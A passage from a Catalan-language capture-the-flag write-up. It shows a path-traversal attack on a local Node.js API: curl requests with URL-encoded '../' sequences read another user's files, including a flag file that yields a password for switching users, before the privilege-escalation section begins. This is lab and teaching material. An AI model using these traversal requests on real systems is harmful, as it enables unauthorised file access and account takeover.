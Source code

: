 L'esborrem o cancel·lem la descàrrega ja que ocupa molt espai.

Intentem llegir algun fitxer que sabem que existeix i que només pot llegir l'usuari `securitybot`, com per exemple `/home/securitybot/.local/bin/bot/index.js`, que sabem que existeix però no tenim accés de lectura amb el nostre usuari.

```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fsecuritybot%2F.local%2Fbin%2Fbot%2Findex.js
```

Podem llegir el fitxer correctament de la programació de l'API en Node.js.

Intentem llegir el fitxer de la flag de user.txt de l'usuari `securitybot`.

```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fsecuritybot%2Fuser.txt
```

Obtenim la flag de user.txt i una contrasenya de regal `0KjcFEkuUEXG` (això no és molt realista).

![User flag and password](../../../assets/images/securitron/image-30.png)

Accedim a l'usuari `securitybot` amb la contrasenya `0KjcFEkuUEXG`.

![securitybot](../../../assets/images/securitron/image-31.png)

## Elevació de privilegis

Comprovem si tenim algun permís sudo, ja que tenim la contrasenya de l'usuari.

![sudo](../../../assets/images/securitron/image-32.png)
